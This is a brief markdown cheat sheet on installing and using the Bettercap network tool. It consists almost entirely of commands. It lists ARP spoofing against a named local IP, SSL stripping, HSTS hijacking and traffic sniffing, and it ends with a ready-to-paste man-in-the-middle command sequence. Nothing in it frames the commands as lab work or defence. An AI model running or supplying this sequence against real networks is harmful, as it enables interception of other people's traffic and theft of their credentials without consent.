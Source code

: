 ```yaml
---
title: Bettercap
---
```


# Bettercap

```shell 
sudo apt update
sudo apt install golang git build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev
```

```shell
go get -u github.com/bettercap/bettercap
```

```shell
sudo bettercap -iface enp3s0f0 -caplet http-ui
```

```go
http-ui
```


```go
caplets.show
```

## DoS

```go
set arp.spoof.targets 192.168.1.100
```

## HTTTP proxy

```go
set http.proxy.sslstrip true
```


```go
hstshijack/hstshijack 
```


```go
net.probe on
```


```go
net.sniff on
```

```go
set arp.spoof.fullduplex true
arp.spoof on
```

https://github.com/PrettyBoyCosmo/HTTP-List


```
set http.proxy.sslstrip true
set net.sniff.verbose false
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true
arp.spoof on
http.proxy on
net.sniff on
```